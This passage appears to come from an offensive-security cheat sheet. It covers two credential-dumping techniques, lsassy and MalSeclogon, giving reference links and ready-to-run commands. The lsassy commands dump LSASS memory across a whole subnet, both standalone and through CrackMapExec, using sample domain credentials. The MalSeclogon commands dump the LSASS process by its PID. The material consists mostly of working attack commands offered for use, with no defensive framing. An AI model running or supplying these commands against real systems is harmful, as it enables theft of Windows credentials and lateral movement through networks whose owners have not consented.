 
### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```



### MalSeclogon

- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [https://github.com/antonioCoco/MalSeclogon](https://github.com/antonioCoco/MalSeclogon)

```
Cmd > Malseclogon.exe -p <LSASS_PID> -d 1
Cmd > Malseclogon.exe -p <LSASS_PID> -d 2
```
